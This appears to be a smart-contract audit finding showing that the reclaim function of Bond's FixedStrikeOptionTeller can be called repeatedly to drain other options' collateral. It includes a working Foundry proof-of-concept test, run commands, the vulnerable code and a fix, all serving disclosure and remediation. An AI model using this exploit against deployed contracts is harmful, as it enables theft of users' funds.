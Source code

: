 berndartmueller

high

# Option token receiver can steal funds by repeatedly reclaiming expired options

## Summary

Reclaimed option tokens are not burned, thus allowing the option receiver to repeatedly call the `reclaim` function and steal payout and quote tokens from the `FixedStrikeOptionTeller` contract.

## Vulnerability Detail

The `receiver` address of an option token can reclaim the collateral from expired option tokens by calling the `reclaim` function in the `FixedStrikeOptionTeller` contract. This function determines the amount of collateral to be reclaimed, either in `payoutToken` or `quoteToken`, based on the total supply of the option token and transfers the tokens to the `receiver` address.

However, those option tokens are not burned, thus allowing the `receiver` address to repeatedly call the `reclaim` function, steal payout, and quote token funds from the `FixedStrikeOptionTeller` contract.

For instance, an attacker could deploy a new option token with the same quote token as other already deployed option tokens (e.g., USDC) and create (issue) put options by supplying the necessary quote token collateral. Additionally, the option token could be short-lived to ensure timely expiry. As soon as the option token expires, the attacker can repeatedly call the `reclaim` function and steal the quote token collateral from the `FixedStrikeOptionTeller` contract.

**Test case:**

The following test case demonstrates how Alice is able to repeatedly call the `reclaim` function and steal quote token collateral.

```diff
diff --git a/options/test/FixedStrikeOption.t.sol b/options/test/FixedStrikeOption.t.sol
index 8205544..5eda1b5 100644
--- a/options/test/FixedStrikeOption.t.sol
+++ b/options/test/FixedStrikeOption.t.sol
@@ -1571,6 +1571,69 @@ contract FixedStrikeOptionTest is Test {
         assertEq(optionToken.balanceOf(bob), amount);
     }

+    function test_reclaim_repeatedly_put() public {
+        // Deploy call option token
+        uint256 strikePrice = 5 * 10 ** def.decimals();
+        FixedStrikeOptionToken optionToken = teller.deploy(
+            abc, // ERC20 payoutToken
+            def, // ERC20 quoteToken
+            uint48(0), // uint48 eligible (timestamp) - today
+            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
+            alice, // address receiver
+            false, // bool call (true) or put (false)
+            strikePrice // uint256 strikePrice
+        );
+
+        uint256 strikePrice2 = 5 * 10 ** def.decimals();
+        FixedStrikeOptionToken optionToken2 = teller.deploy(
+            abc, // ERC20 payoutToken
+            def, // ERC20 quoteToken
+            uint48(0), // uint48 eligible (timestamp) - today
+            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
+            bob, // address receiver
+            false, // bool call (true) or put (false)
+            strikePrice2 // uint256 strikePrice
+        );
+
+        // Mint option tokens by depositing collateral (quote tokens)
+        uint256 amount = 100 * 10 ** abc.decimals();
+        vm.prank(alice);
+        teller.create(optionToken, amount);
+
+        // Mint option 2 tokens by depositing collateral (quote tokens)
+        uint256 amount2 = 100 * 10 ** abc.decimals();
+        vm.prank(bob);
+        teller.create(optionToken2, amount2);
+
+        // Send the option tokens to another user (receiver doesn't need to hold)
+        vm.prank(alice);
+        optionToken.transfer(bob, amount);
+
+        vm.prank(bob);
+        optionToken2.transfer(carol, amount2);
+
+        // Warp forward past expiry
+        vm.warp(block.timestamp + 9 days);
+
+        // Reclaim collateral as receiver
+        uint256 receiveAmount = (amount * strikePrice) / 10 ** abc.decimals();
+        uint256 aliceQuoteStart = def.balanceOf(alice);
+        uint256 tellerQuoteStart = def.balanceOf(address(teller));
+
+        vm.prank(alice);
+        teller.reclaim(optionToken);
+        vm.prank(alice);
+        teller.reclaim(optionToken); // @audit-info Alice is able to reclaim multiple times
+
+        // Check that balance updates are correct
+        // - Alice receives the receiveAmount of quoteTokens.
+        // - Teller pays out the receiveAmount of quoteTokens.
+        assertEq(def.balanceOf(alice), aliceQuoteStart + (receiveAmount * 2)); // @audit-info Alice receives double the amount of quote tokens
+        // assertEq(def.balanceOf(address(teller)), tellerQuoteStart - receiveAmount);
+        // Note: option tokens are not burned on a reclaim, they just remain in place since they are expired
+        assertEq(optionToken2.balanceOf(carol), amount);
+    }
+
     function test_reclaim_put() public {
         // Deploy call option token
         uint256 strikePrice = 5 * 10 ** def.decimals();
```

**How to run this test case:**

Save git diff to a file named `test_reclaim_repeatedly_put.patch` and run with

```bash
git apply test_reclaim_repeatedly_put.patch
forge test -vv --match-test "test_reclaim_repeatedly_put"
```

## Impact

Payout and quote tokens, utilized by other deployed option tokens, can be stolen from the `FixedStrikeOptionTeller` contract.

## Code Snippet

[src/fixed-strike/FixedStrikeOptionTeller.reclaim](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437)

```solidity
395: function reclaim(FixedStrikeOptionToken optionToken_) external override nonReentrant {
396:     // Load option parameters
397:     (
398:         ERC20 payoutToken,
399:         ERC20 quoteToken,
400:         uint48 eligible,
401:         uint48 expiry,
402:         address receiver,
403:         bool call,
404:         uint256 strikePrice
405:     ) = optionToken_.getOptionParameters();
406:
407:     // Retrieve the internally stored option token with this configuration
408:     // Reverts internally if token doesn't exist
409:     FixedStrikeOptionToken optionToken = getOptionToken(
410:         payoutToken,
411:         quoteToken,
412:         eligible,
413:         expiry,
414:         receiver,
415:         call,
416:         strikePrice
417:     );
418:
419:     // Revert if token does not match stored token
420:     if (optionToken_ != optionToken) revert Teller_UnsupportedToken(address(optionToken_));
421:
422:     // Revert if not expired
423:     if (uint48(block.timestamp) < expiry) revert Teller_NotExpired(expiry);
424:
425:     // Revert if caller is not receiver
426:     if (msg.sender != receiver) revert Teller_NotAuthorized();
427:
428:     // Transfer remaining collateral to receiver
429:     uint256 amount = optionToken.totalSupply();
430:     if (call) {
431:         payoutToken.safeTransfer(receiver, amount);
432:     } else {
433:         // Calculate amount of quote tokens equivalent to amount at strike price
434:         uint256 quoteAmount = amount.mulDiv(strikePrice, 10 ** payoutToken.decimals());
435:         quoteToken.safeTransfer(receiver, quoteAmount);
436:     }
437: }
```

## Tool used

Manual Review

## Recommendation

Consider preventing the `reclaim` function from being called multiple times for the same expired option token. E.g., by keeping track of the reclaimed option tokens in a mapping and reverting if the option token was already reclaimed.
